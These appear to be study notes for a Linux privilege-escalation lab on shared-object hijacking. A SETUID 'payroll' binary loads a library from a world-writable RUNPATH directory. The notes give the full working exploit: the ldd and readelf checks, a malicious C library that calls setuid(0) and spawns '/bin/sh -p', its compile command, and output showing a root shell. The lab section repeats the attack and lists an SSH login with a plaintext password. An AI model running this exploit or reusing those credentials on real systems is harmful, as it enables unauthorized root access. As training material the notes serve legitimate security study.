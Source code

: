 # Shared Object Hijacking

Consider a case with the following SETUID binary

ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll

1) Use ldd to print the shared object required by the binary

ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)

2) Inspect libraries using readelf

--> Libraries in RUNPATH folder are given preference over other folders.

readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]

3) Exploit the misconfiguration

The configuration allows the loading of libraries from the /development folder, which is writable by all users. This misconfiguration can be exploited by placing a malicious library in /development,

ls -la /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../

cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so

ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)

vi root.c

#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 

gcc root.c -fPIC -shared -o /development/libshared.so

````
./payroll 
````

***************Inlane Freight Employee Database***************

Malicious library loaded
````
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
````

## LAB

ssh htb-student@10.129.220.117
Academy_LLPE!

find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x 1 root root 16728 Sep  1  2020 /home/htb-student/shared_obj_hijack/payroll

ldd shared_obj_hijack/payroll

	linux-vdso.so.1 =>  (0x00007ffe5d4ea000)
	libshared.so => /development/libshared.so (0x00007fe0cbcc8000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fe0cb8fe000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fe0cbeca000)

readelf -d shared_obj_hijack/payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]

cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so

ldd shared_obj_hijack/payroll
	linux-vdso.so.1 =>  (0x00007ffc639dd000)
	libshared.so => /development/libshared.so (0x00007f6de0915000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f6de054b000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f6de0b17000)

vi root.c

#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 

gcc root.c -fPIC -shared -o /development/libshared.so

./shared_obj_hijack/payroll

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1008(htb-student) groups=1008(htb-student)
# 

ldd --version
ldd (Ubuntu GLIBC 2.23-0ubuntu10) 2.23
Copyright (C) 2016 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
